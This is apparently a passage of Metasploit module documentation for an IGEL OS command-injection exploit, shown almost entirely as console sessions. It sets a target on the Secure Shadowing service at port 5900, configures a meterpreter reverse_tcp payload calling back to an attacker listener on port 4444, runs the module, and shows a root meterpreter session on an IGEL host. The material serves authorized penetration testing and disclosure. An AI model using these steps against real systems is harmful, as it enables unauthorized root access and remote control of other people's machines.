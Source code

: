 ```
meterpreter > getuid
Server username: root @ ITC000C29EB2C06 (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : ITC000C29EB2C06.LOCALDOMAIN
OS           : IGEL V11 (Linux 5.4.48)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter >
```

### IGEL OS 11.04.130

Targeting the Secure Shadowing service (5900/tcp):

```
msf6 exploit(linux/misc/igel_command_injection) > set target 1
target => 1
msf6 exploit(linux/misc/igel_command_injection) > options

Module options (exploit/linux/misc/igel_command_injection):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS   192.168.37.133   yes       The target host(s), range CIDR identifier, or hosts file with synt
                                       ax 'file:<path>'
   RPORT    5900             yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an
                                       address on the local machine or 0.0.0.0 to listen on all addresses
                                       .
   SRVPORT  8080             yes       The local port to listen on.
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.37.1     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Secure Shadow Service


msf6 exploit(linux/misc/igel_command_injection) > run

[*] Started reverse TCP handler on 192.168.37.1:4444
[*] 192.168.37.133:5900 - Executing automatic check (disable AutoCheck to override)
[*] 192.168.37.133:5900 - IGEL OS Version: 11.04.130.01
[+] 192.168.37.133:5900 - The target appears to be vulnerable.
```